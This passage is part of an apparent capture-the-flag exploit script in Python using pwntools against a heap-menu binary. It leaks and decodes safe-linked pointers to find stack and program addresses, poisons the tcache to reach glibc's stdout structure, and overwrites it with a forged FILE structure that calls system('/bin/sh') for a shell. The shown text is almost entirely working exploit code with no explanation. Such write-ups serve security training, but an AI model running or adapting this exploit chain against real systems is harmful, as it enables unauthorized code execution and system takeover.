 ```python
    view(14)
    ru(b"Data: ")
    temp = u64(r(6).ljust(8, b"\x00"))
    stack_leak = obfuscate(temp, libc_argv)
    info(f"stack leak: {hex(stack_leak)}")
    input("ok")
    write_into(14, p64(stack_leak - stack_offset))
    create(2, 0xF8)
    view(14)
    ru(b"Data: ")
    temp = u64(r(6).ljust(8, b"\x00"))
    exe.address = obfuscate(temp, stack_leak) + 0x60EA2433C000 - 0x60EA2433D160
    info(f"exe: {hex(exe.address)}")
    input("write")
    write_into(14, p64(exe.sym.chunks + 0x10))
    create(2, 0xF8)
    write_into(
        2,
        p64(exe.sym.chunks + 0x10)
        + p64(libc.sym._IO_2_1_stdout_)
        + p64(0) * (16 - 4)
        + p16(0x1F0) * 16,
    )
    stdout_lock = (
        libc.sym["_IO_2_1_stdout_"] + 0x250
    )  # _IO_stdfile_1_lock  (symbol not exported)
    stdout = libc.sym["_IO_2_1_stdout_"]
    fake_vtable = libc.sym["_IO_wfile_jumps"] - 0x18
    gadget = libc.address + 0x00000000001724F0  # add rdi, 0x10 ; jmp rcx

    fake = FileStructure(0)
    fake.flags = 0x3B01010101010101
    fake._IO_read_end = libc.sym.system
    fake._IO_save_base = gadget
    fake._IO_write_end = u64(b"/bin/sh\x00")  # will be at rdi+0x10
    fake._lock = stdout_lock
    fake._codecvt = stdout + 0xB8
    fake._wide_data = stdout_lock + 0x18
    fake.unknown2 = p64(0) * 2 + p64(stdout + 0x20) + p64(0) * 3 + p64(fake_vtable)
    payload = bytes(fake)
    #############################################################################################
    write_into(3, payload[:0x1E0])

    interactive()


if __name__ == "__main__":
    init()
    exploit()
```
